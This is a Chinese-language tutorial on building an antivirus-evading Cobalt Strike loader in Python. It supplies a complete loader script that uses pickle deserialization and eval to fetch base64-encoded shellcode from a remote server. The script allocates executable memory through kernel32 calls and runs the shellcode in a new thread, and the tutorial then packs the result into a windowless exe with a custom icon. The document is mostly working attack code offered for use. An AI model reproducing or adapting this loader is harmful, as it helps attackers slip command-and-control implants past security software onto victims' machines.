







### 基于加载器的python反序列化免杀(打包生成的exe暂只支持win7可执行)

<strong>PS：来自moonsec师傅的分享</strong>

#### 0x01 环境配置

Win10 x64

Win7  x64

Python 2.7.18

Pyinstaller3.4

CS4.0

<strong> pip install pyinstaller==3.4 -i https://pypi.doubanio.com/simple/ </strong>

|---------------------------------------------------------------------------------------|

#### [0x02 免杀原理]

利用反序列化加载器绕过杀软基于特征的免杀。利用编码绕过shellcode的查杀。可以将加密好的shellcode放在远程服务器上，再加载不同的shellcode，进行扩展。

#### 0x03 制作加密shellcode

利用cs获取shellcode

此处选择python语言，以及使用x64payload，否则执行python文件时会中断。

此处生成payload为：

使用任意方式进行加密，此处采用base64进行。

用生成payload替换buf

<strong> import base64,urllib2   buf = "shellcode"   html = base64.b64encode(buf) print html </strong>

|---------------------------------------------------------------------------------------|

将使用base64加密后的payload保存为txt文件，然后放在可访问web目录下。

使用如下脚本测试是否能够获取到解密后的payload

<strong>import base64,urllib2   html = urllib2.urlopen('http://192.168.176.129:8000/base.txt').read().decode('base64') print html </strong>

此处看到ip表示解密未出现问题。

#### 0x04 使用加载器加载payload

使用如下加载器尝试加载执行： 
import ctypes,cPickle,base64,urllib2 
class ptr(object): 

    def __reduce__(self):
        return (eval, ("urllib2.urlopen('http://192.168.176.129:8000/base.txt').read().decode('base64')",))
class buf(object): 

    def __init__(self,shellcode):
        self.shellcode = shellcode

    def __reduce__(self):
        return (eval, ("ctypes.windll.kernel32.VirtualAlloc(0,len(shellcode),0x1000,0x40)",))

class windll(object):

    def __init__(self,rwxpage,shellcode):
        self.rwxpage = rwxpage
        self.shellcode = shellcode

    def __reduce__(self):
        return (eval, ("ctypes.windll.kernel32.RtlMoveMemory(rwxpage,ctypes.create_string_buffer(shellcode),len(shellcode))",))

class ht(object):

    def __init__(self,rwxpage):
        self.rwxpage = rwxpage

    def __reduce__(self):
        return (eval, ("ctypes.windll.kernel32.CreateThread(0,0,rwxpage,0,0,0)",))

class run(object):
    def __init__(self,handle):
        self.handle = handle

    def __reduce__(self):
        return (eval,("ctypes.windll.kernel32.WaitForSingleObject(handle,-1)",))

if __name__ == '__main__':

    raw_shellcode = ptr()
    ser_shellcode = cPickle.dumps(raw_shellcode)
    emb32_shellcode = base64.b32encode(ser_shellcode)
    shellcode = cPickle.loads(base64.b32decode(emb32_shellcode))

    raw_vir = buf(shellcode)
    ser_vir = cPickle.dumps(raw_vir)
    emb32_vir = base64.b32encode(ser_vir)
    rwxpage = cPickle.loads(base64.b32decode(emb32_vir))

    raw_rtl = windll(rwxpage,shellcode)
    ser_rtl = cPickle.dumps(raw_rtl)
    emb32_rtl = base64.b32encode(ser_rtl)

    raw_handle = ht(rwxpage)
    ser_handle = cPickle.dumps(raw_handle)
    emb32_handle = base64.b32encode(ser_handle)
    handle = cPickle.loads(base64.b32decode(emb32_handle))

    raw_run = run(handle)
    ser_run = cPickle.dumps(raw_run)
    emb32_run = base64.b32encode(ser_run)

    output = '''import ctypes,cPickle,base64,urllib2

e_shellcode = "{}"
shellcode = cPickle.loads(base64.b32decode(e_shellcode))

e_rwxpage="{}"
rwxpage = cPickle.loads(base64.b32decode(e_rwxpage))

e_code = "{}"
cPickle.loads(base64.b32decode(e_code))

e_handle = "{}"
handle = cPickle.loads(base64.b32decode(e_handle))

e_run = "{}"
cPickle.loads(base64.b32decode(e_run))'''.format(emb32_shellcode,emb32_vir,emb32_rtl,emb32_handle,emb32_run)

    with open('shellcode.py','w') as f:
        f.write(output)
        f.close() 

|---------------------------------------------------------------------------------------|

执行py文件后，会在该文件目录下生成shellcode.py，使用python执行后，查看CS是否上线：

如成功上线，使用pyinstaller生成exe可执行文件。

#### 0x05 pyinstaller生成exe文件

pyinstaller生成指定图标无命令行的exe文件

<strong> pyinstaller.exe –noconsole –onefile shellcode.py -i 128.ico -n shellcode </strong>

生成默认目录为pyinstaller.exe所在目录中的dist目录下

